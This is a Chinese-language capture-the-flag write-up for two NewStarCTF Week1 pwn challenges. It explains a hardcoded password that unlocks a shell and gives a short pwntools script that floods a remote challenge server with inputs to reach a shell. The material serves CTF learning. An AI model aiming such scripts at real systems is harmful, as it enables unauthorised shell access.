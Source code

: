 NewStarCTF Week1 Pwn
![[Pasted image 20240929131422.png]]
![[Pasted image 20240929131459.png]]
![[Pasted image 20240929122557.png]]
(2024.9.29)

# PWN

## Real Login
![[Pasted image 20240929115710.png]]
`fun`函数中可以看出输入的`v3`等于`password`时即可运行`win`函数获取`shell`
![[Pasted image 20240929115811.png]]
可以看到`password`的内容为'NewStar!!!'，输入获取`shell`
![[Pasted image 20240929115852.png]]

## Game
![[Pasted image 20240929115948.png]]
`game`函数中可以看出输入的`v0`在(0,10)的范围内,
构造循环输入直到`v1>999`即可
exp:
```python
# 一次跑不通就多跑几次
from pwn import *

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./game')
else:
    p = remote('39.106.48.123', 26563)

v1 = 0

while v1 <= 999:
    p.recvuntil(b'num: ')
    p.sendline(b'10')
    v1 += 10
    print(v1)

print(v1)
p.interactive()
```
运行获取`shell`
![[Pasted image 20240929120213.png]]
